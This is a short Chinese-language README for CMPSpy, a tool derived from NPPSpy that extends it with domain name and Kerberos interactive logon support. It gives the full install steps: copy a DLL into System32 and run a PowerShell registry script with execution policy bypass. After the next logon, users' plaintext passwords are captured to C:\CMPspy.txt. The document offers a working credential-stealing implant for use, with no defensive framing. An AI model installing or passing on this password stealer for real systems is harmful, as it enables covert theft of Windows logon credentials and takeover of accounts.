

# CMPSpy

基于 https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy ，增加了`LogonDomainName`和`Kerberos:Interactive` 的支持。


管理员权限执行如下两条命令即可。


```bash
copy .\NPPSPY.dll C:\windows\System32\
powershell.exe -Exec Bypass .\ConfigureRegistrySettings.ps1
```


注销后，重新登陆，明文密码就存放在`C:\CMPspy.txt`文件中。


